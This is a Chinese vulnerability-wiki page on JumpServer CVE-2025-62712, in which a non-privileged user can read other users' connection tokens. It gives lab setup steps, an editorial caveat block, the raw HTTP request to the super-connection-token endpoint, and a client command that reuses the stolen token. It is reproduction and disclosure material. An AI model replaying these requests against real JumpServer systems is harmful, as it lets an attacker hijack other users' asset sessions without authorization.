










# JumpServer 连接令牌泄漏漏洞 CVE-2025-62712

<!-- vulwiki-editorial:start -->
## 校订与适用边界

所获权限限定于泄漏令牌对应的资产会话，不自动等同 JumpServer 管理员权限。安装命令与解压目录版本不一致，实际测试 build 尚未确定。

- 适用前提：Authenticated nonprivileged account and another user's existing connection tokens;3.10/4.10LTS branches
- 证据范围：Clear victim-token creation and attacker retrieval; connection gains token's asset rights

### 本次正文校订

- 修正正文中的 JumperServer → JumpServer 转录错误，资源路径保持原样。
- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Installer says3.10.7 but output directory3.10.8; tested build ambiguous
- Impact rows require branch lower bounds; metadata omits4.x
- 'Administrator privileges' means specified asset token scope, not automatically JumpServer administrator
- JumperServer typo; repair section should state explicit3.10.20-lts/4.10.11-lts thresholds

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

JumpServer 是一款开源堡垒主机和运维安全审计系统。在 JumpServer v3.10.20-lts 及 v4.10.11-lts 之前的版本中，经过身份验证的非特权用户可以通过超级连接 API 端点 `/api/v1/authentication/super-connection-token/` 检索到其他用户的连接令牌。当通过 Web 浏览器访问此端点时，它会返回所有用户创建的连接令牌，而不是将结果限制为请求者拥有或授权的令牌。攻击者获得这些令牌后，可以代表原始令牌所有者连接到管理的资产，从而导致敏感系统的未经授权访问和权限提升。

参考链接：

- https://github.com/jumpserver/jumpserver/commit/453ad331eec9d9667a38de735d6612608e558491
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-6ghx-6vpv-3wg7

## 漏洞影响

```
JumpServer < v3.10.20-lts
JumpServer < 4.10.11-lts
```

## 环境搭建

下载官方安装脚本，执行如下命令启动一个 JumpServer v3.10.7 服务：

```shell
wget https://github.com/jumpserver/jumpserver/releases/download/v3.10.7/quick_start.sh
chmod +x quick_start.sh && ./quick_start.sh
-----
>>> The Installation is Complete
1. You can use the following command to start, and then visit
cd /opt/jumpserver-installer-v3.10.8
./jmsctl.sh start

2. Other management commands
./jmsctl.sh stop
./jmsctl.sh restart
./jmsctl.sh backup
./jmsctl.sh upgrade
For more commands, you can enter ./jmsctl.sh --help to understand

3. Web access
http://192.168.174.5:80
Default username: admin  Default password: admin

4. SSH/SFTP access
ssh -p2222 admin@192.168.174.5
sftp -P2222 admin@192.168.174.5

5. More information
Official Website: https://www.jumpserver.org/
Documentation: https://docs.jumpserver.org/
```




服务启动后，访问 `http://your-ip/core/auth/login/` 即可查看到 JumpServer 登录页面，通过默认口令 `admin/admin` 登录后台：




## 漏洞复现

通过该漏洞，经过身份验证的非特权用户可以通过 API `/api/v1/authentication/super-connection-token/` 检索到其他用户的连接令牌。因此，我们还需要做一些配置，才能进行漏洞复现：

- 为特权用户 Administrator 创建连接令牌
- 创建一个非特权用户账号，例如 one
- 通过非特权用户账号 one 登录，读取特权用户 Administrator 的连接令牌

首先，为特权用户 Administrator 创建连接令牌。根据 [官方文档](https://docs.jumpserver.org/zh/v4/manual/user/profile/#5)，连接令牌的创建方式如下：

- 连接 SSH 协议资产：通过 Web 终端连接 Linux 资产，选择连接方式为客户端，即可创建令牌信息；
- 连接 RDP 协议资产：通过 Web 终端连接 RDP 资产，选择连接方式为客户端，即可创建令牌信息；
- 连接数据库应用：通过 Web 终端连接数据库应用，选择连接方式为数据库客户端， 即可创建令牌信息；
- 通过调用 API 方式创建。

通过特权用户 Administrator 新建 Linux 资产：




添加登录资产用户 root，认证方式可选密码或公钥：




创建授权规则，使 Administrator 获取权限：







通过 Administrator 的 Web 终端连接 Linux 资产，选择连接方式为客户端：




此时，已经成功创建了连接令牌信息：




至此，前置准备工作已完成。然后，我们创建一个非特权用户账号 one，登录该账号，读取连接令牌。可以看到，已经成功通过非特权用户账号 one 读取其他用户创建的连接令牌。如下图，我们已经已经获取了 Administrator 的连接令牌：

```http
GET /api/v1/authentication/super-connection-token/ HTTP/1.1
Host: 192.168.174.5
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: [非特权用户账号 Cookie]
Cache-Control: no-cache
Pragma: no-cache
Accept-Language: en
Accept-Encoding: gzip, deflate
```




可通过 JumpServerClient 和该 Administrator 连接令牌取得管理员权限：

```
./client ssh JMS-1bexxxxxxxxxxbe@192.168.174.5 -p 2222 -P Xkxxxxxxzf
```




## 漏洞修复

1. 升级至安全版本或以上；
2. 利用安全组设置其仅对可信地址开放。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
